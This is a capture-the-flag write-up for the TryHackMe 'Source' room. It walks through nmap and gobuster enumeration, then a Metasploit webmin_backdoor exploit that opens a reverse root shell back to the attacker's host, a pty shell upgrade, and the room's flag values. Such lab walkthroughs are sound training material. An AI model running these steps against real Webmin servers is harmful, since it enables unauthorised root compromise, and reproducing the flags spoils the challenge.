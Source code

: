 ```yaml
---

title: "TryHackMe - Source Write-up"
author: "FAFS FSAFAF"
date: "2025-09-09"
categories: \[TryHackMe, CTF, Writeup]
--------------------------------------

# TryHackMe - Source Write-up

## 📌 Overview

* **Room:** Source
* **Difficulty:** Easy
* **Tags:** Enumeration, Webmin, Exploitation, Privilege Escalation

This room focuses on exploiting a vulnerable Webmin service to gain root access.

---
```


## 📑 Table of Contents

1. [Enumeration](#-enumeration)
2. [Web Enumeration](#-web-enumeration)
3. [Exploitation](#-exploitation)
4. [Post-Exploitation](#-post-exploitation)
5. [Flags](#-flags)
6. [Conclusion](#-conclusion)

---

## 🔍 Enumeration

### Nmap Scan

We start by scanning the target with **nmap**:

```bash
sudo nmap -sC -sV -T4 {target_IP}
```

* **-sC**: Run default scripts
* **-sV**: Detect service versions
* **-T4**: Aggressive timing for faster results

**Results:**

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

✅ Open ports:

* **22/tcp** → SSH
* **10000/tcp** → Webmin

---

## 🌐 Web Enumeration

Visiting `https://{target_IP}:10000` revealed a **Webmin login page**.

* Default credentials were tested → **failed**
* Directory enumeration with **gobuster** produced no useful results:

```bash
gobuster dir -u https://{target_IP}:10000 -w /usr/share/wordlists/dirb/common.txt
```

---

## 🎯 Exploitation

### Searchsploit

We check for Webmin exploits:

```bash
searchsploit webmin
```

Several **RCE exploits** were available. Since the Webmin version is vulnerable, we proceed with **Metasploit**.

### Metasploit

Start `msfconsole` and search for Webmin exploits:

```bash
msf6 > search webmin
```

We use the **Webmin backdoor exploit**:

```bash
use exploit/linux/http/webmin_backdoor
set RHOST {target_IP}
set RPORT 10000
set LHOST tun0
set SSL true
exploit
```

✅ This immediately provided a **root shell**.

---

## 🖥️ Post-Exploitation

To upgrade the shell to a stable TTY:

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/anyname.py
python /tmp/anyname.py
```

We now have a fully interactive **root shell**.

---

## 🚩 Flags

Retrieve flags from the machine:

```text
user.txt → THM{SUPPLY_CHAIN_COMPROMISE}
root.txt → THM{UPDATE_YOUR_INSTALL}
```

---

## ✅ Conclusion

* Enumerated open ports with `nmap`
* Identified Webmin service on port 10000
* Verified vulnerable Webmin version
* Exploited with **Metasploit `webmin_backdoor`**
* Achieved **root access** and captured flags

This room is ideal for practicing **service enumeration** and **Metasploit exploitation**.
